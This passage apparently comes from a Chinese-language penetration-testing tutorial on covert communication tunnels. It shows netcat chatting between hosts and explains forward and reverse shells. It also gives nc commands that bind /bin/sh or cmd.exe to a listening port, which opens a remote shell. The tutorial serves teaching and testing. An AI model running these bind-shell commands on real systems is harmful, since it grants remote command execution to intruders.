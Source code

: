 ![](img/隐藏通信隧道基础知识/35.png)

在客户端对服务端的6666端口进行连接，就可以开始聊天了：

```
nc -nv 192.168.2.12 6666
```

![](img/隐藏通信隧道基础知识/36.png)

（8）获取正向shell

shell分为两种，一种是正向shell，另一种就是反向shell。

正向就是你去连接目标，反向就是目标来连接你。

在客户端输入命令，监听4444端口：

```
linux：
nc -lvp 4444 -e /bin/sh
windows：
nc.exe -lvp 4444 -e c:\windows\system32\cmd.exe
```